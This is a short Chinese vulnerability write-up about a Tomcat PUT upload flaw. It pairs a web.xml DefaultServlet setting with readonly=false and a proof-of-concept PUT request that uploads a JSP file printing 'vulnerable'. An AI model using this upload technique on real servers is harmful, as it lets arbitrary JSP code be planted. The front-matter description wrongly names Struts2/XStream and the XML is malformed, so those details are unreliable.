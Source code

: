 ```yaml
---
layout: post
title: Tomcat JSP文件PUT上传漏洞
description: "Vulnerability - Java Struts2 S2-052 and XStream"
tags: [Vulnerability,Java,Struts2,漏洞分析]
image:
  background: triangular.png
---
```


# 0. 概述

<web-app
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
</web-app>


POC:

PUT /cmd/test3.jsp/ HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 28

<%out.print("vulnerable");%>